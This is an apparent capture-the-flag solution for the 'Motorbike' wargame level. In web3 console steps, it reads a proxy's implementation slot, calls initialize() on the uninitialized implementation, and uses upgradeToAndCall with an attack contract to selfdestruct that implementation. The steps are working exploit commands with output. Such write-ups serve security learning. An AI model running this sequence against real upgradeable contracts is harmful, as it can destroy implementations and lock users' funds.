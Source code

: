 

1) Get implementation contract from storage slot

     await web3.eth.getStorageAt(instance, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
     --> '0x0000000000000000000000005bbac8bb93aa6bc4e6b32f39c61c54abde055899'

     Get rightmost 40 bytes



2) Call initialize function on implementation contract since it was not called during deployment of proxy

    functionSig = web3.eth.abi.encodeFunctionSignature('initialize()')
    --> '0x8129fc1c'

    sendTransaction({from: player, to: "0x5BbAC8BB93aA6bc4e6b32f39C61C54ABDe055899", data: '0x8129fc1c'})




3) Deploy an attack contract with a destroy function that executes selfdestruct

    web3.eth.abi.encodeFunctionSignature('destroy()')
    --> '0x83197ef0'


    [see Motorbike.sol]



4) Call upgradeToAndCall on implementation contract, which makes a delegate call to attack contract and selfdestructs

    functionSig = web3.eth.abi.encodeFunctionCall({
    name: 'upgradeToAndCall', 
    type: 'function', 
    inputs: 
    [{
        type: 'address', name: 'newImplementation'
        }, 
        {
            type: 'bytes', name: 'data'
        }
    ]}, ['0x16Ecaa004B5Ca5634386dEdfa2D5718b3282f0B5','0x83197ef0'])



    ----------------------------------------------------------------


    sendTransaction({from: player, to: "0x5BbAC8BB93aA6bc4e6b32f39C61C54ABDe055899", data: functionSig})


